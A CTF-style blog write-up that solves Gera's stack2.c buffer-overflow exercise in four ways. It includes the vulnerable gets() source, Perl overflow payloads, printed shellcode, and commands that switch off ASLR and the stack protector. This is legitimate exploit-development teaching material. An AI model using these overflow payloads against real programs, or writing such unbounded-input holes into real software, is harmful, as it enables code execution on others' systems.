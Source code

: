 Gera's Warming Up on Stack #2 - Solutions
==========================================
date: 02/Jan/2013
summary: Solutions for Gera's Warming up on Stack #2 program.
tags: exploit, ctf

## Introduction

Following is the part 2 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack2.c](http://pages.cs.wisc.edu/~riccardo/sec/stack2.html) program:

```c
/* stack2.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020305)
        printf("you win!\n");
}
```

Like its counterpart [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html), the above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it prints the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020305`
- Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020305`

Here's the GCC commandline to prepare [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack2 stack2.c
stack2.c: In function ‘main’:
stack2.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccoBRXbD.o: In function `main':
stack2.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html):

```
# perl -e 'print "A"x80 . "\x05\x03\x02\x01"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

### Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack2 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 03 02 01          cmp    eax,0x1020305
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
Segmentation fault
```

### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack2 stack2.c 2>/dev/null ; readelf -l stack2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!#
```

### Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Lets get straight to exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack2
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
